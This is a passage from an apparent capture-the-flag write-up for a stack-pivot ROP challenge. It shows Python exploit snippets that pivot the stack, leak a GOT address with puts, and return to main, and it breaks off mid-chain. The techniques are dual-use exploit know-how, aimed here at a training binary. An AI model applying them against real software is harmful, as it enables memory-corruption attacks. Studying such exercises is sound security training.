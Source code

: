 Now we have our gadgets and pivot address, we can use the following payload to pivot the stack:
```
xchg_rsp_rax = 0x4009bd
pop_rax      = 0x4009bb

payload  = b"A" * 40
payload += p64(pop_rax)
payload += p64(pivot_addr)
payload += p64(xchg_rsp_rax)
```
Note that in the actual attack, the post-pivot chain is written before this payload is sent, but this order seemed easier for the explaination.

## Leaking the `foothold_function()` post-pivot
At our pivot memory where our new stack will be, we have to write the next part of our exploit.
Remember, our goal was to leak the address of the `foothold_function()`. This address will be in the GOT.
We can leak this address by looking up the address of the `.got` entry of `foothold_function()` in the binary, and printing out the contents of this entry during runtime by calling `puts()`.
This can be done with a `pop rdi` gadget, which luckily we have in our binary as well. This would then look as follows:
```
foothold_got = 0x601040
pop_rdi      = 0x400a33
puts_plt     = 0x4006e0

post_pivot_chain += p64(pop_rdi)
post_pivot_chain += p64(foothold_got)
post_pivot_chain += p64(puts_plt)
```
However, this only works if the `.got` entry of `foothold_function()` is actually populated. 
This only happens when `foothold_function()` is called for the first time, so we have to manually call the function first to populate the table.
We can do this by jumping to the function from the `.plt` entry, so our chain becomes the following:
```
foothold_got = 0x601040
foothold_plt = 0x400720
pop_rdi      = 0x400a33
puts_plt     = 0x4006e0

post_pivot_chain  = p64(foothold_plt)
post_pivot_chain += p64(pop_rdi)
post_pivot_chain += p64(foothold_got)
post_pivot_chain += p64(puts_plt)
```
This now seems to work! We can provide this chain to the provided memory space, and then provide our pivot payload and pivot to this chain.
This successfully prints out some information, containing an address, which is the `.got` entry of `foothold_function()`.

However, we have a problem. The program exits, as it is only programmed to read two inputs and exit afterwards.
We need a way to continue the program after we make it print the address, so we can provide a new payload to return to an address we compute with the leaked address.
Luckily, this can be achieved rather easily. We can simply return to `main()` with out ROP chain.
This makes the program continue with a new prompt for input. The ROP chain is extended to:
```
foothold_got = 0x601040
foothold_plt = 0x400720
pop_rdi      = 0x400a33
puts_plt     = 0x4006e0
main         = 0x400847

post_pivot_chain  = p64(foothold_plt)
```